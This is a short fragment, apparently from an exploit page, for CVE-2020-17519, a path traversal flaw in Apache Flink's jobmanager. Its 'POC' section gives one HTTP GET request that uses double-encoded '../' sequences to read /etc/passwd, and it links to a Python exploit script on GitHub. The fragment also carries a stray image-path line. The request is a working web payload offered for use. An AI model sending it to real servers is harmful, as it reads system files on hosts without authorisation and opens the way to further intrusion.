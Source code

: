 POC
---

    GET /jobmanager/logs/..%252f..%252f..%252f......%252f..%252fetc%252fpasswd'

Github
------

<https://github.com/B1anda0/CVE-2020-17519/blob/main/CVE-2020-17519.py>